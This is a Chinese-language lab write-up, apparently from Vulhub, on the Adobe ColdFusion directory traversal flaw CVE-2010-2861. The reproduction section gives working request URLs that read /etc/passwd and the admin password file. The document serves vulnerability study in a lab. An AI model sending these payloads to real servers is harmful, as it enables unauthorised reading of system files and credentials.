


Adobe ColdFusion 文件读取漏洞 CVE-2010-2861¶
漏洞描述¶
Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。
Adobe ColdFusion 8、9版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。
环境搭建¶
Vulhub执行如下命令启动Adobe CouldFusion 8.0.1版本服务器：
docker-compose up -d
环境启动可能需要1~5分钟，启动后，访问http://your-ip:8500/CFIDE/administrator/enter.cfm，可以看到初始化页面，输入密码admin，开始初始化整个环境。
漏洞复现¶
直接访问http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en，即可读取文件/etc/passwd

读取后台管理员密码http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en
